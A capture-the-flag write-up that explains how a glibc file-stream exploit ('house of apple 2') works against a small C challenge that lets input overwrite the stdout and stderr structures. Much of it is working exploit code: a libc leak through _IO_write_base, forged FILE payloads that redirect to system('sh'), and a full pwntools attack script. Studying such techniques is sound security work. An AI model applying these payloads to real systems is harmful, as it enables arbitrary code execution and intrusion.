 # file101

Attachment:

```c
#include <stdio.h>

void main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("stdout:");
  scanf("%224s", (char*)stdout);
  puts("stderr:");
  scanf("%224s", (char*)stderr);
}
```

We can write data to `stdout` and `stderr`, which allows for file stream oriented programming, specifically [house of apple 2](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/).

Heavily inspired by [BlackHat MEA 2025 Writeup - pwn by @Rosayxy](https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/), but uses a modified house of apple 2 instead of house of cat.

Steps:

1. Override the lowest byte of `stdout._IO_write_base` to zero, so that internal data of `stdout` is leaked via stdout
2. Based on leaked data, we know the base address of libc, construct the house of apple 2 payload using the libc base address with some modifications:
    1. `scanf` stops when `0x20` is encountered, so `fake_file->file._flags` is set to `"aa;sh\x00"` instead of the typical `"\x20sh\x00"`
    2. the offset of `_wide_vtable` within `fake_file->file._wide_data` is 0xE0, which overflows the input limitation of `%224s`; so we point `fake_file->file._wide_data` to `fake_file - 0x10` instead
3. Send the payload to get shell

Typical house of apple 2 payload:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        0x00: b" sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x18: p64(0),
        # fake_file->file._IO_write_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_IO_buf_base
        0x30: p64(0),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
        # fake_file->file._wide_data->_wide_vtable
        0xE0: fake_file,
    }
)
```

Modified payload for this challenge:

```python
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
```

Attack:

```python
from pwn import *
from pwnlib.libcdb import search_by_build_id

elf = ELF("./chall")
libc = elf.libc
# get debug symbols for libc
libc_unstrip_filename = search_by_build_id(libc.buildid.hex(), unstrip=True)
libc_unstrip = ELF(libc_unstrip_filename)
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

p = process("./chall")

# house of apple 2
# https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-2/

# gdb.attach(p)
# pause()

# libc leak
# https://rosayxy.github.io/blackhat-mea-2025-writeup-pwn/
p.recvuntil(b"stdout:\n")
# 0xFBAD1800:
# _IO_MAGIC
# _IO_IS_APPENDING
# _IO_CURRENTLY_PUTTING
# override lowest byte of _IO_write_base to 0x00
# so that data is leaked within stdout
p.sendline(p64(0xFBAD1800) + p64(0) * 3)
# using local libc here, offset can be different from remote
# data starting from &stdout[0x40] is printed
p.recv(0x28)
# &stdout[0x68]: _chain, stdout->file._chain is stdin
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
libc_addr = libc_leak - libc.symbols["_IO_2_1_stdin_"]

libc.address = libc_addr
libc_unstrip.address = libc_addr
print("libc", hex(libc_addr))

# construct payload for house of apple2
# using stderr as fake_file
fake_file = libc.symbols["_IO_2_1_stderr_"]
payload = flat(
    {
        # fake_file->file._flags
        # requirements:
        # (_flags & 0x0002) == 0
        # (_flags & 0x0008) == 0
        # (_flags & 0x0800) == 0
        # basic approach with spaces:
        # " sh\x00"
        # 0x20, 0x73, 0x68, 0x00
        # 0x00: b" sh\x00",
        # without spaces:
        # 0x61, 0x61, 0x3b, 0x73, 0x68, 0x00
        0x00: b"aa;sh\x00",
        # fake_file->file._wide_data->_IO_write_base
        0x08: p64(0),
        # fake_file->file._IO_write_base
        # fake_file->file._wide_data->_IO_buf_base
        0x20: p64(0),
        # fake_file->file._IO_write_ptr
        0x28: p64(1),
        # fake_file->file._wide_data->_wide_vtable->__doallocate
        0x68: libc.symbols["system"],
        # fake_file->file._lock
        0x88: libc_unstrip.symbols["_IO_stdfile_0_lock"],
        # fake_file->file._wide_data
        0xA0: fake_file - 0x10,
        # fake_file->file._mode
        0xC0: p64(0),
        # fake_file->file._wide_data->_wide_vtable
        0xD0: fake_file,
        # fake_file->vtable
        0xD8: libc.symbols["_IO_wfile_jumps"],
    }
)
p.recvuntil("stderr:")
p.send(payload)

p.interactive()
```
